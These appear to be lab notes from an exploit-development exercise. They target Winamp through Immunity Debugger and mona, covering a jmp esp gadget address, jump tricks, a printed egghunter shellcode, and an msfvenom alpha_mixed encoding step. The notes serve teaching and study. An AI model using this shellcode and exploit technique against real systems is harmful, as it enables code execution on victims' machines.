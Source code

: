 immunity: set options

* ignore exceptions (via: add latest) before pressing `shift-f9` to pass it
* set proper font (Consolas, regular, 14pt)

---

immunity debugger

* `alt-o` options
* `alt-c` CPU
* `alt-l` log (mona output)

---

winamp

* `alt-3` show file info (take a look at the exploit)
* `str-o` open playlist file
* `x` play

---

* `!mona config -set workingfolder Z:\WH3` (shared folder)
* run program in debugger!
* **`jmp esp`**
* `!mona jmp -n -r esp -cm safeseh=false,rebase=false,aslr=false`
  * find `jmp esp` (`-r` is target register)
  * `-n` skips addresses starting with NULL byte
  * `-cm` speficy options
  * this took very long! (much faster with `-cm`!)
* let's use `0x1a113749` gen_ff.dll
  * `break 0x1a113749`
    * immunity tends to forget breakpoints, so let's keep this
* we have space above our jmp esp
* **negative jump** up! (0xebe0) -> `jmp short -30`
  * works! but too 30 bytes are not enough space for our jmp back
  * neither are 127 bytes (max for negative jmp)
  * let's jump more!
* replace jmp esp + neg. jmp with: **sub esp, sub esp, jmp esp**

* `!mona egg -wow64 -winver10`

from egghunter.txt:

```sh
"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
"\xff\xe7"
```
convert it to bytes with python:

```python
eggh = "\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53" \
"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c" \
"\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75\xd7" \
"\xff\xe7"

print(eggh)
```
direct it into a file:

```sh
gen.py > eggh.bin
r2  eggh.bin
aaa;Vpp
```

```sh
cat eggh.bin| msfvenom -p - -a x86 --platform win
 -e x86/alpha_mixed -f perl
```
